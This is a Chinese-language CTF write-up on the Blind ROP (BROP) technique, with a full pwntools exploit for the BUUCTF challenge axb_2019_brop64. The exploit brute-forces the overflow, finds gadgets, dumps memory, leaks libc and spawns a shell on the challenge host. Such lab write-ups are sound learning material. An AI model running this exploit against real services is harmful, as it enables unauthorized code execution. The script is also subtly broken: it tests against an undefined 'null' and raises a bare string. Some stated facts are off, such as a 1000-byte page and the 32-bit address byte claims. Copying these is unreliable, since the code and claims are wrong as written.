## 0x00 前置知识
- 栈溢出知识
- 常见汇编指令
- 寄存器
- 函数调用协议
- NX保护与ROP技术
- ASLR地址随机化与PIE
- Canary


## 0x01 BROP前提
1. 首先需要存在一个服务能够向其输入一串字符串；
2. 其次是能够输入一段字符串使其崩溃；    
3. 崩溃之后服务仍然能自动重启继续提供相同的服务。

PS: BROP只有在没有开启PIE的服务，或者开启了PIE，但重启之后没有进行PIE过程的服务有效。


## 0x02 BROP步骤
1. Stack Reading：读取栈以泄漏Canary和返回地址，突破ASLR；
2. Blind ROP：找到足够的gadget来调用write函数并且能控制它的参数；
3. 构建漏洞：dump足够多的二进制内容，以找到足够的gadget来构建shellcode，拼接并编写exp执行利用。


## 0x03 Stack Reading
#### 1. 泄露Canary
泄漏Canary的思路是溢出一个字节，用某个值x覆盖Canary的一个字节。如果Canary是正确的，服务器不会崩溃。因此遍历完所有可能情况需要256个单字节的值，直到找到它（平均128次）。攻击持续到下一个字节，直到8个Canary字节（64位平台下）全部泄露出来。



#### 2. 泄露返回地址（需要考虑ASLR）
由于64位内存地址空间的前两个字节都是0x00，第三个字节都是0x7f，所以可以节省3个字节的爆破请求。但即使如此，64位服务如果做了ASLR随机化，需要爆破的次数仍然非常多。所以需要其他漏洞来协助泄露返回地址。
32位的内存地址的第一个字节是0x00，第二个字节为0x7f，所以只需要爆破两个字节即可。
当然这种覆盖爆破是存在多个值都能正常运行的，有可能返回地址填入了空指针也不会崩溃。


## 0x04 Blind ROP
#### 1. 最常见的BROP gadget
最主要的是找到RDI、RSI、RDX、RAX相关的gadget。最常用的是程序启动时必须执行的函数`__libc_csu_init`中的一段gadget，这里称其为BROP gadget，如图5所示，RDI和RSI即可解决。



而RDX的相关gadget比较少，《Hacking Blind》作者提出用strcmp代替。strcmp函数会用RDX记录待比较字符串的长度。因此当前目标是找到BROP gadget、write函数地址、strcmp函数地址。

#### 2. 寻找stop gadget
在找到gadget之前，需要注意的是如果测试的地址不是gadget，会导致程序崩溃；而即使是gadget，ret的地址空间如果不对，也会导致程序崩溃，这样的话就无法判断当前测试的地址是否为可用的gadget。因此需要先找到一个特定的gadget，可以使ret到这个特定gadget的时候程序不会崩溃，这种特定的gadget称为stop gadget。



与stop gadget相对应的就是trap，可以使程序执行到此地址时必定崩溃。从probe（探针，也就是溢出点）开始构建一系列的代码，即可找到想要找的gadget，例如《Hacking Blind》作者提到的以下几种：
- `probe, stop, traps (trap, trap, . . . )` 可以找到`ret`或者`xor rax,rax;ret`这样的gadget；
- `probe, trap, stop, traps` 可以找到`pop rax; ret`或者 `pop
rdi; ret`这样的gadget；
- `probe, stop, stop, stop, stop, stop, stop, stop, traps`.
可以找到 pop 6个寄存器的gadget，例如BROP gadget。

#### 3. 寻找PLT表
PLT表是存放调用系统函数的小程序的段，跳转到对应的小程序相当于执行了某个函数。程序加载到进程空间后，会分配GOT表和PLT表，GOT表映射使用过的库函数地址，PLT表则存放诸多小程序用于调用GOT表中的各个映射过来的库函数。GOT表和PLT表是动态加载必要的段。
PLT段是16字节对齐的，并且可以偏移6个字节还能正常运行，因此可以根据这个特点，结合probe、stop、trap来定位PLT段。而且PLT通常是在进程地址0x400000开始不久的地方。

#### 4. 寻找strcmp
当前目标是找到strcmp函数地址，来控制RDX。前面已经能控制前两个参数RDI、RSI，这样只需要完成如下判断即可确定当前测试的PLT表中的函数调用小程序是控制strcmp的：
- `strcmp(bad,bad)`：crash
- `strcmp(bad,readable)`：crash
- `strcmp(readable, bad)`：crash 
- `strcmp(readable, readable)`：no crash
其中bad可以是0x0，readable可以是某个可读指针，如.text段中的地址。测试可能会把其他函数也找到，如strncmp和strcasecmp。

#### 5. 寻找write
C语言中的write函数需要三个参数，而上述过程已经能够控制三个输入参数了，此时只要爆破PLT表，找到能实现write功能的小程序地址即可。唯一的困难是计算文件描述符。有两种方法：在单个ROP链中使用不同的文件描述符连接多个write操作，或者打开多个连接并使用相对较高的文件描述符号，判断它是否能够匹配。
Linux默认限制进程最多同时打开1024个文件描述符，这使得搜索空间很小。此外，POSIX要求新的文件描述符使用可用的最低数量，因此在实践中搜索前几个文件描述符可以很好地工作。write文件描述符为1。

## 0x05 构建漏洞
#### 1. 系统调用
在找到PLT表时，一般可以找到dup2和execve这样的函数来执行命令。一般需要以下步骤：
- 将socket连接重定向到标准输入或输出。攻击者可以使用dup2或close函数，其次是dup或fcntl(F_DUPFD)函数，这些经常在PLT表中。
- 在内存中找到`/bin/sh`。一种有效的技术是从符号表中找到一个可写内存区域，如environment、environ等，然后从攻击者的socket读取`/bin/sh`字符串到该地址。
- 执行shell。如果execve不在PLT中，攻击者将需要传输更多的二进制文件来找到`pop rax;ret`和系统调用gadget。

#### 2. dump内存
另一种攻击方式是，找到read函数，从基地址（一般是0x400000）开始读取，把整个进程空间dump下来，这样ELF文件也可以获取到并进行逆向分析。


## 0x06 BUUCTF PWN axb_2019_brop64
源码参考安全客博主ERROR404师傅的文章[《Pwn 盲打（Bilnd Pwn）的一般解决思路》](https://www.anquanke.com/post/id/196722)

#### 1. 爆破栈溢出点
在BUUCTF找到该题目后，生成靶机环境，nc连接测试功能如下，用户输入后输出重复内容。



输入长字符串则溢出。



爆破溢出点位置，也就是导致栈溢出的字符串长度，脚本如下。最终长度为216字节。



#### 2. 寻找stop gadget
本题没有Canary，所以直接跳过Canary爆破，寻找stop gadget。调试脚本时发现溢出时还会输出后面一个字节的内容，也就是返回地址，因此可以先把返回地址爆破出来，以便后面缩小测试范围。爆破脚本如下图。



测试过程中发现0x6e0开始有stop gadget，但测试了几个都不能用，所以从0x700开始重新找，最终找到0x4007d6。

#### 3. 寻找BROP gadget
找到stop gadget后，trap可以直接用0x0，接下来需要找BROP gadget，也就是`__libc_csu_init`函数中的那段gadget，连续pop 6个寄存器，所以可以构造如下结构的测试payload：`junk + probe + trap + trap + trap + trap + trap + trap + stop + trap + trap + trap + trap + trap + trap...`
其中junk为填充一些垃圾数据，直到溢出点；溢出点也就是返回地址处填充猜测的BROP gadget地址。具体实现脚本如下图。



最终测试结果BROP gadget地址为0x40095a。

#### 4. 寻找PLT表中的puts
这里并未严格按照BROP攻击原理中的步骤去泄露write函数地址，因为write需要3个参数，而puts函数只需1个参数，可以用比较短的payload；另一个原因是本题可以通过将进程空间中的内容全部dump下来分析。具体实现如下图。


这里因为测试步骤2看到原来的函数返回地址为0x400834，判断没有ASLR，所以基地址0x400000处一定是字符串`ELF`，以此为依据爆破出puts@plt的地址为0x400635。

#### 5. dump内存
利用BROP gadget偏移9个字节可以得到控制RDI的gadget，构造控制puts@plt的利用链，将完整的进程空间dump下来保存成二进制文件在IDA中进行分析。



dump下来的内存保存在axb_2019_brop64_dump文件中，总长度4096字节。但dump下来的内容包含了一个内存页（1000字节），因此无法直接作为ELF文件在IDA中打开。需要以Binary格式、设置基地址0x400000后打开，然后手动重建代码。



根据PLT表结构，PLT表头为：开头16个bytes为`push;jmp;nop`，后面开始每16个字节都是`jmp;push;jmp`，对二进制文件进行重建代码（IDA按键盘c），可以看到0x400630-0x40063f为PLT表头，所以在上面步骤爆破出来的PLT中的puts函数地址是有偏差的，真实的plt中puts地址应该是0x400640，并且jmp要跳转的地址0x601018为got表puts地址。



#### 6. 攻击利用
编写exp，注意puts@plt、puts@got地址是纠正后的地址，利用溢出泄露出puts函数在libc中的地址。然后利用LibcSearcher库，计算puts函数地址偏移量，搜索libc相应版本，计算出system函数的地址和字符串`/bin/sh`地址，构成利用链，最后拿到shell。如下图14、15所示。
注意执行exp后，会提示选择0-4 共5个libc库中的1个，本次测试选择4，如下图。





最终得到flag{c7022258-b860-48af-9ec3-0cb2afb396be}。

## 0x07 总结
总结一下整个思路：
1. 找到可执行文件加载的位置。对于非pie可执行文件（默认），为0x400000或堆栈读取保存的返回地址。
2. 找到一个stop gadget。这是PLT表中典型的阻塞系统调用（如sleep或read函数），攻击者也会在这个步骤中找到PLT表。
3. 找到BROP gadget。攻击者当前可以控制调用的前两个参数。
4. 在PLT中找到strcmp函数。攻击者当前可以控制调用的前三个参数。
5. 找到PLT表中的write函数。攻击者当前可以dump整个二进制文件来找到更多的gadget。
6. 构建shellcode并利用。


## 0x08 源码
```python
# coding:utf-8
from pwn import *
from LibcSearcher import *

REMOTE = True
REMOTE_DOMAIN = 'node4.buuoj.cn'
REMOTE_PORT = 12345     # 根据实际靶机分配的端口
PROCESS = './axb_2019_brop64'

def get_sh():
    if REMOTE:
        return remote(REMOTE_DOMAIN, REMOTE_PORT)
    else:
        return process(PROCESS)

# 爆破栈溢出点
def Force_find_padding():
    padding_length=0
    while True:
        try:
            padding_length = padding_length + 1
            sh = get_sh()
            sh.recvuntil(b"Please tell me:")
            sh.send(b'A' * padding_length)
            text = sh.recvall()
            if b"Goodbye!" not in text:
                raise "Programe not exit normally!"
            sh.close()
        except:
            log.success("The true padding length is " + str(padding_length - 1))
            sh.close()
            return padding_length - 1
    log.error("We don't find true padding length!")

padding_length = 216    # 偏移长度216，第217位是return_addr
if padding_length is null:
    padding_length = Force_find_padding()

# 因为本题没有canary，所以不需要爆破Canary,并且本题栈溢出可以直接泄漏栈的内容，这里先泄漏原来的返回地址，以便后面缩小范围。
old_return_addr = 0x400834
sh = get_sh()
if old_return_addr is null: 
    sh.recvuntil(b"Please tell me:")
    sh.send(b'A' * padding_length)
    sh.recvuntil(b'A' * padding_length)
    old_return_addr = sh.recvuntil(b'Goodbye!')[:-8].ljust(8, b'\0')
    old_return_addr = u64(old_return_addr)  # 0x400834
    log.info('The old return address is '+ hex(old_return_addr))
sh.close()

# 寻找 stop gadget
def Find_stop_gadget(old_return_addr, padding_length):
    maybe_low_byte = 0x0700     # 从0x0开始，出来0x6e0,0x6e2等等好几个，但测了几个都不能用，所以直接从0x700开始 
    while True:
        try:
            sh = get_sh()
            sh.recvuntil(b"Please tell me:")
            sh.send(b'A' * padding_length + p16(maybe_low_byte))
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
            if b"Hello" in sh.recvall(timeout=1):
                log.success("We found a stop gadget is " + hex(old_return_addr + maybe_low_byte))
                sh.close()
                return (old_return_addr + maybe_low_byte)
            maybe_low_byte = maybe_low_byte + 1
        except:
            pass
        finally:
            sh.close()

stop_gadget_addr = 0x4007d6 # 0x4007d6
if stop_gadget_addr is null:
    stop_gadget_addr = Find_stop_gadget(old_return_addr & 0xFF0000, padding_length)


# 寻找 BROP gadget
def Find_brop_gadget(libc_csu_init_address_maybe, padding_length, stop_gadget):
    maybe_low_byte = 0x0000
    while True:
        try:
            sh = get_sh()
            sh.recvuntil(b"Please tell me:")
            payload  = b'A' * padding_length    # junk + probe + trap + trap + trap + trap + trap + trap + stop + trap + trap + trap + trap + trap + trap...
            payload += p64(libc_csu_init_address_maybe + maybe_low_byte) 
            payload += p64(0) * 6
            payload += p64(stop_gadget) + p64(0) * 10
            sh.send(payload)
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
            if b"Hello" in sh.recvall(timeout=1):
                log.success("We found a brop gadget is " + hex(libc_csu_init_address_maybe + maybe_low_byte))
                return (libc_csu_init_address_maybe + maybe_low_byte)
            maybe_low_byte = maybe_low_byte + 1
        except:
            pass
            sh.close()

brop_gadget_addr = 0x40095a # 0x40095a
if brop_gadget_addr is null:
    brop_gadget_addr = Find_brop_gadget(old_return_addr & 0xFF0000, padding_length, stop_gadget_addr)
    

# 寻找PLT表中的puts函数
def Find_func_plt(func_plt_maybe, padding_length, stop_gadget, brop_gadget):
    maybe_low_byte = 0x0600
    while True:
        try:
            sh = get_sh()
            sh.recvuntil(b"Please tell me:")
            payload  = b'A' * padding_length 
            payload += p64(brop_gadget + 9) # pop rdi;ret; 这里只需要一个参数是因为想找到puts函数来输出
            payload += p64(0x400000)
            payload += p64(func_plt_maybe + maybe_low_byte)
            payload += p64(stop_gadget)
            sh.send(payload)
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
            if b"ELF" in sh.recvall(timeout=1):     # 没有ASLR的基地址一定是0x400000，并且该地址的内容为"ELF"
                log.success(
                    "We found a function plt address is " + hex(func_plt_maybe + maybe_low_byte)
                )
                return (func_plt_maybe + maybe_low_byte)
            maybe_low_byte = maybe_low_byte + 1
        except:
            pass
            sh.close()

func_plt_addr = 0x400635    # 0x400635
if func_plt_addr is null:
    func_plt_addr = Find_func_plt(old_return_addr & 0xFF0000, padding_length, stop_gadget_addr, brop_gadget_addr)
    
    
# dump内存
def Dump_file(func_plt, padding_lengsth, stop_gadget, brop_gadget):
    process_old_had_received_length = 0
    process_now_had_received_length = 0
    file_content = b""
    while True:
        try:
            sh = get_sh()
            while True:
                sh.recvuntil(b"Please tell me:")
                payload  = b'A' * (padding_length - len('Begin_leak----->'))
                payload += b'Begin_leak----->'
                payload += p64(brop_gadget + 9) # pop rdi;ret;
                payload += p64(0x400000 + process_now_had_received_length)
                payload += p64(func_plt)
                payload += p64(stop_gadget)
                sh.send(payload)
                sh.recvuntil(b'Begin_leak----->' + p64(brop_gadget + 9).strip(b'\x00'))
                received_data = sh.recvuntil(b'\x0AHello')[:-6]
                if len(received_data) == 0 :
                    file_content += b'\x00'
                    process_now_had_received_length += 1
                else :
                    file_content += received_data
                    process_now_had_received_length += len(received_data)
        except:
            if process_now_had_received_length == process_old_had_received_length :
                log.info('We get ' + str(process_old_had_received_length) + ' byte file!')
                with open('axb_2019_brop64_dump', 'wb') as fout:
                    fout.write(file_content)
                return
            process_old_had_received_length = process_now_had_received_length
            sh.close()
            pass

dump_file = False
if dump_file:
    Dump_file(func_plt_addr, padding_length, stop_gadget_addr, brop_gadget_addr)


# exp
context.log_level='debug'
context.arch='amd64'

puts_plt_addr = 0x400640    # 根据dump下来的二进制文件分析纠正为0x400640（原来是0x400635）
puts_got_addr = 0x601018    # 根据dump下来的二进制文件分析可以看到got表中puts函数地址为0x601018

payload  = b'A' * (padding_length - len('Begin_leak----->'))
payload += b'Begin_leak----->'
payload += p64(brop_gadget_addr + 9) # pop rdi;ret;
payload += p64(puts_got_addr)
payload += p64(puts_plt_addr)
payload += p64(stop_gadget_addr)

sh = get_sh()
sh.recvuntil(b"Please tell me:")
sh.send(payload)
sh.recvuntil(b'Begin_leak----->' + p64(brop_gadget_addr + 9).strip(b'\x00'))
puts_addr = u64(sh.recvuntil(b'\x0AHello')[:-6].ljust(8,b'\x00'))

libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')
system_addr=libc_base+libc.dump('system')
bin_sh_addr=libc_base+libc.dump('str_bin_sh')

payload  = b'A' * padding_length
payload += p64(brop_gadget_addr + 9) # pop rdi;ret;
payload += p64(bin_sh_addr)
payload += p64(system_addr)
payload += p64(stop_gadget_addr)
sh.recvuntil(b"Please tell me:")
sh.send(payload)
sh.recv()
sh.interactive()
sh.close()

```

## 0xff 参考

1. [Hacking Blind](https://ieeexplore.ieee.org/ielx7/6954656/6956545/06956567.pdf?tp=&arnumber=6956567&isnumber=6956545)
2. [C语言函数调用栈(一)](https://www.cnblogs.com/clover-toeic/p/3755401.html)
3. [栈介绍 - CTFWiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/)
4. [C语言函数调用栈(二)](https://www.cnblogs.com/clover-toeic/p/3756668.html)
5. [BUUCTF PWN axb_2019_brop64](https://buuoj.cn/challenges#axb_2019_brop64)
6. [Pwn 盲打（Bilnd Pwn）的一般解决思路](https://www.anquanke.com/post/id/196722)
